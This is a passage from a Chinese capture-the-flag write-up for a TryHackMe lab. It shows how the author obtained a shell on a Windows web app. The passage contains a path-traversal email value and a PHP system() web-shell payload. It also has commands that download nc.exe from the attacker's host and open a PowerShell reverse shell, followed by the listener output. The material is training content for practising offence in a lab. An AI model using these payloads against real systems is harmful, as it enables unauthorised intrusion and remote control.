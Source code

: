 PS C:\Users\helen\Desktop\WebApp\h1-tryhackme-medium-two-main\public> ls
PS C:\Users\helen\Desktop\WebApp\h1-tryhackme-medium-two-main\public> whoami
whoami
troy\helen
 
```

在```C:\Users\helen\Desktop```拿到helen的flag

## 第三个shell
82端口这个webapp的getshell非常的trick，以下解法参考了大佬的方法

### 分析
首先这是一个提交框，数据被提交到后台以后，在第二页的源代码注释会出现这样一行文字：
>Ticket saved to ../tickets/

但是无论我们怎么访问，正常情况下都是不能访问tickets这个文件夹的

因为按照之前的经验，所有的webapp其实都是在public下，所以只要我们能够引导这个路径到public下，理论上我们就能在web上访问到tikeit的内容

经过测试Email Address这个字段可以接受双引号，邮箱格式结尾也允许```.php```

因此我们的payload如下：
>Email Address: "../public/"@admin.php*
>Name:      <?php system($_GET['c']); ?\>*
>Message:     <?php system($_GET['c']); ?\>*


上传以后显示：
>saved to ../tickets/../public/@aaa.php 

触发访问：

```http://10.10.48.179:82/@aaa.php?c=whoami```

页面显示whoami命令返回

现在我们得到了一个简单的交互式shell

### 传nc.exe
```http://10.10.48.179:82/@aaa.php?c=powershell curl 10.13.21.169:8000/nc.exe -o nc.exe```


### 本地监听
```nc -lnvp 4445```


### 反弹
```http://10.10.48.179:82/@aaa.php?c=nc.exe 10.13.21.169 4445 -e powershell```


### 拿shell
```
┌──(root💀kali)-[~/tryhackme/hackerhill]
└─# nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.48.179] 49810
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Users\hector\Desktop\WebApp\h1-tryhackme-medium-three-main\public> whoami
whoami
troy\hector
```

在```C:\Users\hector\Desktop```拿到hector的flag
```
